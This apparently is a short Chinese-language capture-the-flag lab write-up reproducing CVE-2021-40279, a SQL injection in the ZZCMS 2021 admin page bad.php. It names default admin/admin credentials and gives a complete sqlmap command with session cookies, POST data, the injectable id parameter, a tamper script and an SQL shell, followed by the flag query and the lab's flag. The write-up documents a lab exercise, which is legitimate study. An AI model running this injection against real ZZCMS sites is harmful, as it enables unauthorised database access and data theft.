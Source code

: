 ```yaml
---
title: CVE-2021-40279【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms2021在admin/bad.php中存在sql注入

## 2. 漏洞分析

[ZZCMS2021 sqlinject(3) · GitHub](https://gist.github.com/aaaahuia/b99596c6de9bd6f60e0ddb7bf0bd13c4)

## 3. 漏洞复现

登录后台，admin/admin，注入点在用户操作不良记录页面id参数

跑sqlmap

```shell
python sqlmap.py -u "http://eci……iu.com/admin/bad.php" --cookie="Hm_lvt_2d0601bd28de7d49818249cf35d95943=1700652466; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1700833147; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3" --method POST --data "action=del&id[0]=0&id[1]=1" -p id[0] --tamper="between.py" --flush-session --sql-shell --batch

select flag from flag
```

得 `flag{4e89cba2-cd3b-4ce7-9307-4540f63cbacb}` 
